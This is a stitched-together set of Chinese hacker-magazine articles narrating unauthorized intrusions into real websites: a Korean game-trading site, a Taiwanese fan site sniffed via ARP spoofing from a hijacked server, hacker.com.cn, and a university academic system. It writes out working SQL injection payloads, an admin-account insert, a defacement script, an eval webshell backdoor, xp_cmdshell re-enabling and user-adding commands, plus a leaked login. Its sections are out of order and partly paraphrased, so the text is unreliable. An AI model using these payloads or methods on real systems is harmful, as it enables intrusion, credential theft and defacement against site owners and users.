

图6



图7

可以直接上传任何后缀的文件，其中“Type=Image”变量是自己定义的，比如输入 `http://www.xxx.com/admin/FCKeditor/editor/filemanager/browser/default/browser.html?Type=hack&Connector=connectors/asp/connector.asp`，就创建了 hack 这个目录，而且新创建的目录没有任何文件格式上传限制。要注意的是所上传的文件就保存在了 `http://www.xxx.com/UserFiles/hack` 下……经过测试，我发现这个网站不仅不能自定义变量，而且只能上传图片格式文件……最终无法打开（如图6）。

### 四、最后总结

在入侵过程中，入侵的思路是最重要的。另外，百度也是一位好老师，我们要做到善于思考、多问，这才是最好的学习方法。如果还有什么不明白的地方可以随时到论坛来找我。（文章中涉及到的工具网站整站下载器已经收录在光盘中）



## 韩国游戏交易网站的噩梦

show_style [D.R.T]

### 一、踩点

朋友最近开了一个韩服天堂1打币工作室，所以我也跟着关心起韩国的游戏网站来。在百度上以“tianbi”为关键字进行搜索来看看“天币”的价格，发现搜索出来很多韩国游戏交易网站（图1）……这是一个 PHP 网站，交易的游戏真不少呀（图2）……

### 二、侧击旁听

废话不多说了，因为我对于 PHP 不是很熟悉，所以就尝试利用服务器的漏洞来入侵，打开 X-scan 进行扫描……注意在 X-SCAN 的设置里不要选择“跳过没有响应的主机”，因为有的服务器有防火墙或相关设置而导致不会返回信息……扫描结果出来了（图3），居然开了那么多的端口。

### 三、千里之堤，溃于蚁穴

mssql、mysql 都开了，竟然还开了代理，还发现了一个漏洞，好像是一个远程任意执行 php 函数的漏洞（图4）。只可惜全是英文的说明，我英语又不好，对 PHP 也不是很熟悉，也没有 0day 工具，怎么办呢？尝试一下旁注吧！既然有 mssql 和 mysql，很可能是一台虚拟主机。我决定到 114best 查一下，千万别是个人的服务器，要不然可就没什么指望了。

果然是一台虚拟主机，有 21 个站点呢（图5），看来入侵的希望是蛮大的。接下来就开始尝试旁注，看看哪一个网站有漏洞。我一找，找了半天，找到它同服务器的一个卖 LV 包包的网站有漏洞（图6）。使用 HDSI 检测一下看看是什么权限，竟然是 DB 权限，要是 SA 权限该多好啊，直接就可以拿服务器了。不过虽然是 DB 权限，但是也可以列目录，应该也可以得到 webshell，那就来尝试一下吧。

## 一、仆人的战争

先列目录，找到那个网站的路径，找了半天，终于找到了（图7）。可能会有网友会问，怎么会是 itemfun_com，它的域名应该是 tianbi.com 呀？其实这个网站是将两个域名解析到了一个服务器上，这个 itemfun_com 就是对方的另一个域名，itemfun.cn 也就是 tianbi.com。其实我当时也不是很确定，进入目录后一看文件，然后在 tianbi.com 上访问一下这个文件，才发现确实有这个文件，这才确定了是两个域名，大家可不要被迷惑啊。

来尝试得到 webshell 吧，选择 HDSI 的 GetWebshell，然后在备份路径栏填写上备份的文件（图8），备份完成后使用一句话木马的客户端尝试连接（图9），连接成功了（图10）。接着我们只要上传仆人马的绝对路径以及木马的内容，然后点击保存就可以了（图11）。

### 四、反思

经过一番踩点、扫描、分析以及旁注，我们终于得到了想要的站点的 webshell。事实也证明了我们做任何事情都是需要有耐心的，倘若刚开始就放弃了，也许我们就不会进一步地提高，也根本就不会成功了。好了，就到这儿吧，希望大家的技术越来越厉害，创造出中国独有的黑客文化之路！（文章中涉及到的工具 X-SCAN、HDSI 已经收录在光盘中）

### 一、前话

以前，我一直在问自己：如果一个网站，除了利用注入、上传、旁注、0day 等这些常见的入侵方法外，我还能黑掉它吗？

后来这个问题就有了答案，那就是嗅探！关于嗅探入侵的文章现在也有许多，但对于初学者来说，这种利用嗅探来入侵的方法可能掌握的难度还是比较大。那么本文我将非常详细地讲述如何通过嗅探这种方法来入侵一个网站，希望菜鸟们都能快速地掌握。

### 二、目标

这次要入侵的是一个名字叫做“名侦探柯南的世界”的台湾网站。对于柯南这个名字，大家都有点熟悉吧，喜欢看漫画的朋友更应该都看过。台湾网站一般使用的都是繁体中文，该网站主页如图1所示。

使用啊 D 检测没有发现注入点，对于上传什么的我也简单地试了下，也毫无进展。常用的方法在这个时候变得那么无奈，难道就没有办法入侵了吗？当然不是了，这时候我们就可以利用嗅探这个方法了！

图1  
图2  
图3  
图4

### 三、思路

要进行嗅探攻击，就必须得到与目标网站处于同一网段下的其他服务器的系统权限。目标网站 IP 为 202.133.244.82，所以我们必须要得到 IP 在 202.133.244.1 至 202.133.244.255 这个网段内的其他服务器的系统权限，然后远程登录对方的 3389，通过 cain 进行嗅探攻击。cain 是一个强大的嗅探软件，但是必须要在图形界面下使用它才行。既然只是要得到同网段下的服务器权限，我们的活动范围就扩大了，下手的地方也就多了，相对来说也容易多了。

图5

### 四、实战

可能有些读者还记得我在去年第 5 期杂志上写过一篇关于入侵台湾某政府网站的文章吧，那个服务器我现在还有它的权限呢。不过和当时的情况不同了，虽然丢了几次但是又被我抓了回来。正好这台服务器就和目标网站“柯南的世界”处在同一网段下！已控制的服务器 IP 为 202.133.244.181。首先登录我们的肉鸡 202.133.244.181，因为这台肉鸡不允许直接连接登录，所以我们要使用 lcx.exe 进行端口转发到本机，然后再进行登录，如图2。

接着把我们的 cain4.9 使用 FTP 上传到肉鸡服务器上，如图3。

cain 在使用前必须要安装 WinPcap 驱动，对于 Win2003 系统无需重启驱动就可以生效，但是 Win2000 系统则必须重启才能生效。WinPcap4.0 的安装非常简单，基本上都是一路“下一步”就可以了，如图4。

图6

## 一个人的战争

安装好驱动后，就可以打开 cain4.9 进行嗅探攻击了。cain 打开后的界面如图5所示。具体的操作步骤要注意一下：

- 先点击“Sniffer”选项，如图6。
- 然后点击那个类似网卡的小按键，如图7。
- 接着在 Sniffer 下面的空白处单击鼠标右键，在弹出的菜单中选择“Scan MAC Addresses”，如图8。
- 在弹出的窗口选中“All hosts”和“All Tests”，然后点击“OK”，如图9。
- cain 就会自动扫描 IP 与 MAC 地址了，稍等一会儿就可以完成扫描了，如图10。

“Configure”选项里可以选择要嗅探的端口，21、80、1433、3389 等都可以嗅探到。由于我的目的是得到目标站点的 FTP 用户名和密码，所以我们只需要选择嗅探 21 端口就可以了，然后单击“确定”按钮，如图11。

接着点击“ARP”选项，会进入如图12所示的界面。点击右边的空白处，灰色的大十字号就会变成蓝色，点开十字号就弹出一个新窗口，如图13。由于我们是要嗅探 202.133.244.82 这台服务器，在 202.133.244.181 肉鸡上执行“ipconfig /all”命令可以得知网关为 202.133.244.1，如图14。

所以在点击蓝色十字号后弹出的框里，在左边选择网关，在右边选择要嗅探的目标主机，如图15，点击“OK”后就会返回到准备嗅探的界面，如图16。现在还没有开始嗅探，嗅探的同时还要进行 ARP 欺骗，所以我们还要点网卡状和它右边的小按键，这时候嗅探攻击正式开始了，如图17。嗅探到的结果就会出现在“Passwords”里面，没等多久就嗅到目标网站的 FTP 密码了，如图18。

### 五、尾声

当然了，嗅探可不是一下子就能嗅到的，这个和运气也有很大的关系。这个 FTP 密码我可是等了好几天才嗅到的，FTP 用户名和密码一般都可以直接得到明文的。利用得到的用户名密码就可以成功登录进入目标网站了，如图19。要是喜欢的话也可以将 ASP 木马传上去，如图20。

时间是十分有限的，至于目标网站的服务器提权，我随便看了下发现不容易提权，反正“柯南的世界”已经被我们控制了，所以我没有继续。还有就是，利用 cain 也可以直接嗅探到 3389 登录的密码的哦，至于 cain 的其他强大功能就留给大家自己去研究和发掘了。本文主要是简单说明一下如何利用 cain 进行嗅探攻击，如果有什么问题的话欢迎与本人交流探讨，发现什么不妥的地方还请大家批评指正。

（文章中涉及到的工具啊 D、CAIN、lcx 已经收录在光盘中）

最近没什么事，就随便看了下国内安全站点的安全情况，偶然间发现了黑防网站中存在的一些安全问题，以下就是详细的描述和过程了。

## 第一步曲

要想入侵，我们就要找到它的网站漏洞。随便打开一个页面“《首发漏洞|迅雷 0day》”，看到它的 URL 链接是 HTML 的，静态页面不能利用，我们再找找看。结果找到了（查看所有评论），其具体链接地址为：

`http://www.hacker.com.cn/common/comment.asp?channel=down&dataid=14789`

我们在后面加个“'”进行提交，如图1。

图1

看到没有，居然没有报错。但是 channel=down 这个 down 却引起了我的怀疑，它是做什么的呢？我们在它后面加个“'”，这回报错了，如图2。

图2

我们再分别添加“and 1=1”和“and 1=2”进行提交，结果都没有报错，真是令我郁闷。难道没有漏洞？不对，刚才报错的那句错误信息“select count(*) from db_sys_review where nsort='down' and iid=14789 and r_hidden=1”已经引起了我的注意，“'”并没有过滤，channel 字段没有任何过滤就放入了数据库。

……之前有未闭合的引号。Microsoft OLE DB Provider for SQL Server。

```sql
insert into db_sys_manager (m_user,m_password,m_grade,m_hidden) values('czp','526a568e057b69f9',10,0); --

select count(*) from db_sys_review where nsort='down';
insert into db_sys_manager (m_user,m_password,m_grade,m_hidden) values('czp','526a568e057b69f9',10,0); -- and iid=14789 and r_hidden=1
```

在数据库中给我加入了一个用户名为 czp、密码为 526a568e057b69f9 的管理员账号。

图3

我们打开它的后台，安全密码？这是什么东西，如图4？我们查看源码将其记录安全密码。哎，已经凌晨三点了，先休息吧。

图4

## 第二步曲

继续昨天我们的入侵，既然进不了后台，那么添加管理员账号已经没任何意义了（但是可以改我们会员权限，加个 VIP 账号），继续寻找别的漏洞。前几天乔客曾爆了个上传漏洞，可是试了试并没有成功。我在论坛随便发了个帖子，上传了一个软件，发现它的下载链接是：

`http://www.hacker.com.cn/common/download.asp?module=upload&id=849`

849 代表我上传文件的 ID 号，那我的 ID 号是在哪儿记录的呢，很显然是在数据库里。经本机测试，u_id 是对应提交的 ID 号码，u_url 对应的是文件路径，默认是在 upload 中。我们将 id=1 的 u_url 改成“../common/config/manage/configure.asp”，再提交：

`http://127.0.0.1/common/download.asp?module=upload&id=1`

成功地把本机的 common/config/manage/configure.asp 配置文件下载了下来，如图5。

“common/config/configure.asp”文件下载了下来，得到了两个重要的数据：

安全密码是加密的，无法破解密码，而且数据库也是内网的。

再次提交：

```text
http://www.hacker.com.cn/common/comment.asp?channel=down' UPDATE db_sys_upload SET filename='/common/config/manage/configure.asp' WHERE u_id=850;
http://www.hacker.com.cn/common/download.asp?module=upload&id=850
http://www.hacker.com.cn/common/comment.asp?channel=down' UPDATE db_sys_upload SET filename='common/config/configure.asp' WHERE u_id=851;
http://www.hacker.com.cn/common/download.asp?module=upload&id=851
```

分别成功地把“common/config/manage/configure.asp”和“common/config/configure.asp”文件下载了下来。

## 第三步曲

其实中间我曾想到了一个方法，既然能够修改数据库，那么我们可以直接写个跨站语句。当管理员进入后台后将安全密码改为空。但是假如安全密码没有了，管理员很容易发现的，而且我也没有成功。

当时没得到 webshell，我们就直接写个黑页挂上面吧。`http://www.hacker.com.cn/common/comment.asp?channel=news' ...` 大家可以自己研究一下论坛跨站，把对方版主为 wtf 的改成我们的跨站语句，没有任何过滤，语句被执行了，如图6。

```sql
UPDATE db_bbs_class SET f_power='</script></div>"<script>document.body.bgColor="black";document.body.innerHTML="<center><font color=green size=3>HackEd BY ...</font>";</script>' WHERE f_name='wtf'
```

哈哈，对方管理员都晕了，两个小时后才找到代码所在，网站恢复了，而且后台也限制了 IP，它以为我是进入后台更改的。限制了 IP 进不了后台了，就算拿到了安全密码也没用了。哎，玩火玩大了。

## 第四步曲

在前面我曾想到了后台跨站，让管理员自动提交语句把安全密码去掉，后来知道了写 SHELL 的方法才知道自己有多笨哦，看我们怎么得到 SHELL。

我们在本机发现，在关键配置的最后一页将 `Scripting.Dictionary` 改成 `Scripting.Dictionary"%><%eval request("#")%><%CONST OBJECT_TYPENAME_XMLDOM1 = "Msxml.DOMDocument"` 提交，就会在 `/common/config/configure.asp` 文件生成一句后门，而且站点也不会有任何报错，连接 `http://127.0.0.1/common/config/configure.asp` 就可以了。

我们在本机把关键配置所有代码保存一下，再将 POST 补全 `http://www.hacker.com.cn/admin/channel/system/configure.asp?channel=&key=configure`，然后将数据库、连接账号等信息改成对方的：

## 一个人的战争



```asp
Scripting.Dictionary "%><%eval request("#")%>
<%CONST OBJECT_TYPENAME_XMLDOM1 = "Msxml.DOMDocument" ... %>
```

```html
<script language="javascript">
this.document.forms[0].submit()
</script>
```

代码保存为 `1.HTM`，上传后通过后台修改信息触发自动提交，利用表单中的 JS `submit` 代码将后门写入配置处理流程，最终获得 WEBSHELL（文中提及“如图7、图8”）。


我这次入侵的目标很明确，就是得到该大学教务系统的数据。文中先分析备份形态（服务器备份与物理备份）及攻击思路，并指出需要同时控制主服务器与备份服务器。

通过搜索定位到目标 URL（`http://a.xxx.edu.cn/jwc/index.asp`），初步测试新闻链接注入失败并返回“类型不匹配 'Clng'”，推断存在强制类型转换。

进一步总结经验：GET 参数常被过滤，POST 参数可能存在遗漏。尝试在登录框、搜索框、下拉列表等 POST 提交点进行测试，并考虑 `javascript injection` 修改表单值后提交。

最终在 `http://a.xxx.edu.cn/***check/login.asp` 发现可注入点，使用用户名如 `' and user>0--` 进行测试并观察返回结果（文中接“如图2”）。


让人激动，如图3。


图3

在用户名处填“' and system_user>0--”，返回了“在将 nvarchar 值 'sa' 转换成数据类型 int 时失败。”的提示……我先看远程桌面是否能连接上……结果却是 3389 端口无法连接。于是分析了几种可能：服务未开、端口被改、本机 IP 策略/防火墙限制、网关限制等，并讨论了针对不同情况的处理思路（如改注册表、端口探测、恢复端口设置等）。



图4

接下来我的目标是拿到 xxx.edu.cn 下的任意一个二级域名。

（右栏）通过某站点可连接 a.xxx.edu.cn 的远程桌面；随后又发现一个登录框 `http://b.xxx.edu.cn/****/`。提交“' and user>0--”后出现数据库报错，提示语法/类型转换问题，据此继续判断注入点与权限情况。


很多时候 GET 过滤严格而 POST 处存在注入点。文中继续尝试 `exec master..xp_cmdshell`、`net user`、`net localgroup` 等命令，并分析失败原因：服务权限不足、xp_cmdshell 被删、数据库与 WEB 分离、net.exe/net1.exe 不可执行、口令策略不满足等。

```sql
CREATE TABLE [boyofbit]([id] int NOT NULL IDENTITY (1,1), [ResultTxt] nvarchar(4000) NULL);
insert into [boyofbit](ResultTxt) exec master.dbo.xp_cmdshell 'ipconfig';
提交') And (Select Top 1 CASE WHEN ResultTxt is Null then char(124) else ResultTxt+char(124) End from (Select Top 1 id,ResultTxt from [boyofbit] order by [id]) T order by [id] desc)>0
exec master..xp_cmdshell "ftp x.x.x.x"
```

继续测试后，作者判断更可能是“数据库与 WEB 服务器分离”的情况，并根据 IP 段对内网开放 1433 端口主机进行扫描。



图5

我判断 x.x.x.171 这台主机就是数据库服务器，登录远程桌面，用户名 ice，密码 bslackest，果然连接成功了，如图6。


图6

发现可疑的端口。有可能 a.xxx.edu.cn 所在网段对 x.x.x.171 这台主机的“信任度”不够。看来，解决问题只能再进一步。我扫描了 a.xxx.edu.cn 所在网段中开放了 80、8080 端口的主机，试图拿下同网段中的服务器，而不仅仅是同源域网的服务器（即 x.x.x.171），因为同网段的“信任度”会高很多。a.xxx.edu.cn 的 IP 是 a.a.a.7，运气不错，a.a.a.19 上跑着默认安装的 Tomcat，用户名 admin 密码为空，成功进入 http://a.a.a.19:8080/manager/html，上传了 war 文件。

> **小知识：**  
> war（Web Application archives）文件与 jar 文件格式相同，是用于发布的、打包后的 Web 应用程序。默认的，Tomcat 会把 war 文件自解压，也就是把里面的 jspshell 释放出来。这样，很快我就得到 webshell 了，如图8。



图8

马上尝试使用 x.x.x.171 登录 a.xxx.edu.cn 的远程桌面，果然能够连接了！回到图2所示的那个注入点，`exec master..xp_cmdshell "net1 user ice bshackest /add"; exec master..xp_cmdshell "net1 localgroup administrators ice /add"`，登录 a.xxx.edu.cn 提示用户名或者密码错误。提交 `;exec master..xp_cmdshell "ntsd"--`，网页刷新得很快，说明命令没有执行（因为 ntsd 命令是非交互式的，数据库执行完 SQL 命令后得不到交互结果就会阻塞，导致网页刷新得很慢，说明命令能够执行）。反复思考，发现遗漏了一点内容，那就是数据库有可能是 SQL Server 2005，默认的 xp_cmdshell 被禁用。可以通过：`EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;` 来恢复。再次执行 `;exec master..xp_cmdshell "ntsd"--`，网页刷新变得很慢，说明 xp_cmdshell 恢复了，命令被执行了。紧接着再加一遍用户，登录远程桌面，结果让人意外——还是提示密码错误。

这可是 System 权限的 jspshell，执行 `net user ice bshackest /add` 没有返回命令成功执行，推断可能是有密码策略，于是执行 `net user ice bshackestAAA###123 /add`，返回命令成功执行，加入管理员组，成功登录 a.a.a.19 的远程桌面。现在，已经来到 a.xxx.edu.cn 的内网了，信任程度很高。在 a.a.a.19 上扫描同网段 1433 端口，如图9。

